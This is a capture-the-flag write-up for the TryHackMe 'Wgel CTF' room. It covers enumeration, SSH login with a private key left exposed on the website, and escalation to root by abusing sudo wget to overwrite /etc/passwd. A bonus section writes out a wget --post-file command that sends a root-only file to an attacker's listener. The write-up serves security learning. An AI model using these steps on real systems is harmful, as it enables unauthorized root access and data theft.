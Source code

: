 # Wgel CTF
**Date:** November 12th 2022

**Author:** j.info

**Link:** [**Wgel CTF**](https://tryhackme.com/room/wgelctf) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/wgel0.png)

<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 11374]
/sitemap              (Status: 200) [Size: 21080]
```

And another scan on /sitemap:

```
/index.html           (Status: 200) [Size: 21080]
/images               (Status: 200) [Size: 8658] 
/.ssh                 (Status: 200) [Size: 955]  
/blog.html            (Status: 200) [Size: 12745]
/css                  (Status: 200) [Size: 2842] 
/fonts                (Status: 200) [Size: 1160] 
/js                   (Status: 200) [Size: 3818] 
/about.html           (Status: 200) [Size: 12232]
/contact.html         (Status: 200) [Size: 10346]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/work.html            (Status: 200) [Size: 11428]
```

<br>

## Website Digging

Visiting the main page shows us a default Apache2 page:

![](images/wgel1.png)

There is no robots.txt to look at.

Taking a look through the view page source shows us a potential username:

![](images/wgel2.png)

Looking at /sitemap from our gobuster scan shows us an UNAPP page:

![](images/wgel3.png)

Well this is certainly a fun one... an exposed .ssh directory with a private ssh key inside it publicly accessable on the website:

![](images/wgel4.png)

<br>

## System Access

I save the file to my system and try and ssh over with the username we found as a comment in the page source code:

![](images/wgel5.png)

<br>

## System Enumeration

Taking a look at which users are able to login shows us that we're the only other user on the system besides root:

![](images/wgel6.png)

Looking around at files in our home directory shows the user flag in the /Documents directory:

![](images/wgel7.png)

Taking a look at SUID files with `find / -perm /4000 2>/dev/null` doesn't give us anything out of the ordinary.

Same thing with `getcap -r / 2>/dev/null`, no interesting capabilities either.

Checking to see if we have any interesting cron jobs shows there is nothing we can see:

![](images/wgel8.png)

Looking at our permissions with `id` shows that we're part of the sudo group, and looking at `sudo -l` shows we can run wget as root:

![](images/wgel9.png)

Heading over to the [**GTFOBins page for wget**](https://gtfobins.github.io/gtfobins/wget/#sudo) tells us how we can use this to escalate to root:

![](images/wgel10.png)

<br>

## Root

Since we're able to output whatever file we host as root to a location of our choosing I'm going to just add a user to the /etc/passwd file.

First I create a password hash that we'll be using with `openssl passwd password`:

![](images/wgel11.png)

Then I look at the existing /etc/passwd file on the target machine and copy it's contents to a file over on my system called passwd, then add my user to the bottom of it and save the file:

![](images/wgel12.png)

Then I set up a simple python http server and download the file to the target system replacing the existing /etc/passwd file:

![](images/wgel13.png)

![](images/wgel14.png)

And making sure it's there:

![](images/wgel15.png)

Ok we should be good to go!

I run a simple `su jason` and switch over to our newly created root privileged user:

![](images/wgel16.png)

And over in the root directory we find our final flag waiting:

![](images/wgel17.png)

<br>

## Bonus

Instead of creating a user we could have also deduced the name of the root flag based on how the user flag was named, and then just transfer that file to our system. The wget command can also transfer files elsewhere instead of just to your system.

To do this set up a netcat listener on your system and then run the following command on the target system to send the file back to you:

`sudo wget --post-file=/root/root_flag.txt http://$ip:$port`

![](images/wgel18.png)

![](images/wgel19.png)

<br>

With that we've completed this CTF!

![](images/wgel20.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding multiple pieces of sensitive information on a website and using them to ssh over to the webserver
- Using our ability to run wget as root to overwrite the existing /etc/passwd file with one we created that has a root user inside it with a password that we set
- Logging in as the newly created user to escalate to root

<br>

Many thanks to:
- [**MrSeth6797**](https://tryhackme.com/p/MrSeth6797) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
